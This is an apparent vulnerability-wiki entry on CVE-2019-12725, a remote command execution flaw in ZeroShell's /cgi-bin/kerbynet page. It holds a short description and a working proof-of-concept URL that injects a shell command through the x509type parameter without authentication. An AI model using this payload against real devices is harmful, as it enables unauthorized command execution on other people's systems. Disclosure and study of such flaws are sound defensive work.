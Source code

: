 # ZeroShell 3.9.0 Remote Command Execution Vulnerability CVE-2019-12725

## Vulnerability Description

ZeroShell 3.9.0 has a command execution vulnerability, and the /cgi-bin/kerbynet page, the x509type parameter filtering is not strict, resulting in an attacker being able to execute arbitrary commands.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">ZeroShell < 3.9.0</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zm-2.png)



The verified POC is



```plain
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zm-1.png)



If you gain something, just like it